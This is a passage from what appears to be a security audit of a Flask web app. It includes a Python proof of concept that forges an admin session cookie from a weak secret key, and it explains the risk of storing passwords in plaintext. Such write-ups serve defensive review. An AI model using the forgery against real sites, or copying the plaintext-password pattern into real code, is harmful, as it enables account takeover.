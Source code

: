 ### **Demonstration of the Exploit**

Assuming the attacker knows or guesses the `secret_key` (`'your-secret-key'`), they can use Python with the `itsdangerous` library (which Flask uses for session signing) to create a forged session cookie:

```python
from flask import Flask
from itsdangerous import URLSafeTimedSerializer

# Configuration
secret_key = 'your-secret-key'  # Known weak secret key
serializer = URLSafeTimedSerializer(secret_key)

# Crafting a session with 'username' set to 'admin'
session_data = {'username': 'admin'}
forged_session = serializer.dumps(session_data)

print(f"Forged Session Cookie: {forged_session}")
```

The attacker would then set this forged session cookie in their browser. When accessing the `/admin` route, the application would recognize the user as `'admin'` and grant access accordingly.

---

## **Additional Vulnerability: Insecure Password Storage**

### **Explanation of the Vulnerability**

The application stores user passwords in plaintext within the SQLite database:

```python
# In the /register route
cursor.execute("INSERT INTO users (username, password) VALUES (?,?)",
               (username, password))
```

**Issues with This Approach:**

1. **No Hashing:** Storing passwords without hashing means that anyone with database access can view all user passwords directly.

2. **Data Breaches:** If the database is compromised, all user credentials are immediately exposed, leading to potential account takeovers.

### **Potential Exploits**

- **Database Compromise:** An attacker gaining access to the database can retrieve all user passwords.
- **Insider Threats:** Malicious insiders with database access can misuse user credentials.
- **Credential Stuffing:** Exposed plaintext passwords can be used in credential stuffing attacks on other platforms if users reuse passwords.

---
